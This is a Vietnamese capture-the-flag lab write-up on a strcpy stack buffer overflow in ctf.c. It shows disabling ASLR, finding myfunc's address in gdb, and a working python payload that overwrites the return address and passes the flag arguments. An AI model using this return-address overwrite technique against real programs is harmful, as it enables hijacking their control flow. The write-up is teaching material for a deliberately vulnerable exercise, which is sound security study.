








Hàm vuln() sử dụng strcpy(buf,s) để sao chép đầu vào s vào mảng buf[100]. Tuy nhiên, hàm strcpy không kiểm tra đầu vào, nên nếu chuỗi s nhập hơn 100 ký tự, nó sẽ ghi đè lên các byte lân cận, gây ra buffer overflow

mục tiêu là đè địa chỉ trả về của hàm vuln thành địa chỉ của hàm myfunc thì mới có thể vào được hàm myfunc

Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên:
sudo sysctl -w kernel.randomize_va_space=0

biên dịch chương trình ctf.c

chạy gdb để xem địa chỉ của hàm myfunc:

=> địa chỉ: 0x0804851b
=>câu lệnh: 'a'*104 + '\x1b\x85\x04\x08'

stack sau khi đè lên giá trị trở về của hàm vuln():

Tuy nhiê, 2 tham số p,q của hàm myfunc chưa có trong stack, vì thế ta đè tiếp biến ebp và giá trị trả về của hàm main thành các flag của p,q

- thêm 4 bytes 'a' cho biến s
=> câu lệnh: 'a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44'
=> kết quả: 
./ctf.out $(python -c "print('a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')") 
  

